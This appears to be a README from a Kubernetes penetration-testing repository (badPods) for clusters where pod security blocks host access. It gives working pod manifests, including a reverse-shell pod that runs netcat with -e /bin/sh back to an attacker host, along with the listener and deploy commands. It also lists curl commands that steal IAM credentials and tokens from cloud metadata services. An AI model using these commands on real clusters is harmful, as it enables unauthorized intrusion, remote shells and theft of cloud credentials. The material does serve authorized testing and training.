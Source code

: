 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  ```
[nothing-allowed.yaml](nothing-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f nothing-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/nothing-allowed/nothing-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-nothing-allowed -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  restartPolicy: Always  
  ```
[nothing-allowed-revshell.yaml](nothing-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/nothing-allowed/nothing-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 




# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558